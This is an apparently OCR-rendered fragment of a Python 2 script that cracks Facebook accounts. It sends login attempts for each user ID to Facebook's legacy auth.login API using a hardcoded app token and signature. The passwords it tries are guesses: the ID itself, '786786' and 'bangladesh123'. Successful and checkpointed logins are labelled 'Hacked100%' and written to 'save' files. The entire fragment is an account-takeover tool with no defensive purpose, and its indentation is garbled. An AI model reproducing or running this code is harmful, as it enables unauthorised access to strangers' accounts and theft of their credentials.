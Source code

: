 	
			
	def main(arg):
		global checkpoint,successfull
		user = arg
		try:
			os.mkdir('save')
		except OSError:
			pass
		try:
			pass1 = user
			data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass1+'\n'+"\n"
				okb = open('save/successfull.txt', 'a')
				okb.write(k+c+user+'-•◈•-'+pass1+'\n')
				okb.close()
				oks.append(c+user+pass1)
			else:
				if 'www.facebook.com' in q['error_msg']:
					print '\033[1;96m[Talha-Checkpoint] ' + k + c + user + '  》  ' + pass1+'\n'
					cps = open('save/checkpoint.txt', 'a')
					cps.write(k+c+user+'-•◈•-'+pass1+'\n')
					cps.close()
					cpb.append(c+user+pass1)
 				else:
 				    pass2="786786"
 				    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
 				    q = json.load(data)
 				    if 'access_token' in q:
 				        print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass2+'\n'+"\n"
 				        okb = open('save/successfull.txt', 'a')
 				        okb.write(k+c+user+'-•◈•-'+pass2+'\n')
 				        okb.close()
 				        oks.append(c+user+pass2)
 				    else:
 				        if 'www.facebook.com' in q['error_msg']:
 					        print '\033[1;96m[Checkpoint] ' + k + c + user + '  》  ' + pass2+'\n'
 					        cps = open('save/checkpoint.txt', 'a')
 					        cps.write(k+c+user+'-•◈•-'+pass2+'\n')
 					        cps.close()
 					        cpb.append(c+user+pass2)
                                        else:
 				            pass3="bangladesh123"
 				            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
 				            q = json.load(data)
 				            if 'access_token' in q:
 				                print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass3+'\n'+"\n"
 				                okb = open('save/successfull.txt', 'a')
 				                okb.write(k+c+user+'-•◈•-'+pass3+'\n')
 				                okb.close()
 				                oks.append(c+user+pass3)
 				            else:
 				                if 'www.facebook.com' in q['error_msg']:
 					                print '\033[1;96m[Checkpoint] ' + k + c + user + '  》  ' + pass3+'\n'
 					                cps = open('save/checkpoint.txt', 'a')
 					                cps.write(k+c+user+'-•◈•-'+pass3+'\n')